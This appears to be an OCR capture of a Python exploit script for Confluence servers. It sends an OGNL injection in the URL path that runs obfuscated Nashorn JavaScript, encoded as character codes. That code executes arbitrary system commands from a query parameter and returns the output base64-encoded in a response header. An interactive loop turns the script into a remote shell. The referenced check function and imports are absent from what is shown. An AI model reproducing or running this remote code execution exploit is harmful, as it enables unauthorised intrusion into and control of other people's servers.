 ```python


def exp(target: str, cmd: str) -> str:
    ognl_expr = """${Class.forName("com.opensymphony.webwork.ServletActionContext").getMethod("getResponse",null).invoke(null,null).setHeader("X-Confluence",Class.forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("nashorn").eval("eval(String.fromCharCode(118,97,114,32,114,101,113,61,80,97,99,107,97,103,101,115,46,99,111,109,46,111,112,101,110,115,121,109,112,104,111,110,121,46,119,101,98,119,111,114,107,46,83,101,114,118,108,101,116,65,99,116,105,111,110,67,111,110,116,101,120,116,46,103,101,116,82,101,113,117,101,115,116,40,41,59,13,10,118,97,114,32,99,109,100,61,114,101,113,46,103,101,116,80,97,114,97,109,101,116,101,114,40,34,115,101,97,114,99,104,34,41,59,13,10,118,97,114,32,114,117,110,116,105,109,101,61,80,97,99,107,97,103,101,115,46,106,97,118,97,46,108,97,110,103,46,82,117,110,116,105,109,101,46,103,101,116,82,117,110,116,105,109,101,40,41,59,13,10,118,97,114,32,101,110,99,111,100,101,114,61,80,97,99,107,97,103,101,115,46,106,97,118,97,46,117,116,105,108,46,66,97,115,101,54,52,46,103,101,116,69,110,99,111,100,101,114,40,41,59,13,10,101,110,99,111,100,101,114,46,101,110,99,111,100,101,84,111,83,116,114,105,110,103,40,110,101,119,32,80,97,99,107,97,103,101,115,46,106,97,118,97,46,117,116,105,108,46,83,99,97,110,110,101,114,40,114,117,110,116,105,109,101,46,101,120,101,99,40,99,109,100,41,46,103,101,116,73,110,112,117,116,83,116,114,101,97,109,40,41,41,46,117,115,101,68,101,108,105,109,105,116,101,114,40,34,92,92,65,34,41,46,110,101,120,116,40,41,46,103,101,116,66,121,116,101,115,40,41,41))"))}"""
    """
    js code:
    var req=Packages.com.opensymphony.webwork.ServletActionContext.getRequest();
    var cmd=req.getParameter("search");
    var runtime=Packages.java.lang.Runtime.getRuntime();
    var encoder=Packages.java.util.Base64.getEncoder();
    encoder.encodeToString(new Packages.java.util.Scanner(runtime.exec(cmd).getInputStream()).useDelimiter("\\A").next().getBytes())
    """
    payload = "/%s/" % (ognl_expr)
    params = {
        'search': cmd
    }
    resp = req.get(target + "/%s/" % (urllib.parse.quote(payload)), params=params, verify=False,
                   allow_redirects=False)
    return base64.b64decode(resp.headers.get("X-Confluence", "")).decode()


if __name__ == '__main__':
    if len(sys.argv) != 2:
        print("Usage: python %s http://example.com/" % sys.argv[0])
        exit(0)
    target = sys.argv[1]
    print("Target: %s" % sys.argv[1])
    print("Checking target is vul...")
    if not poc(target):
        print("[%s] is not vul." % target)
        exit(0)
    else:
        print("[%s] is vul!!!" % target)
    while True:
        command = input("$ ")
        if command == 'q':
            print("quit.")
            exit(0)
        else:
            print("Execute command: %s" % command)
            print(exp(target, command))
```

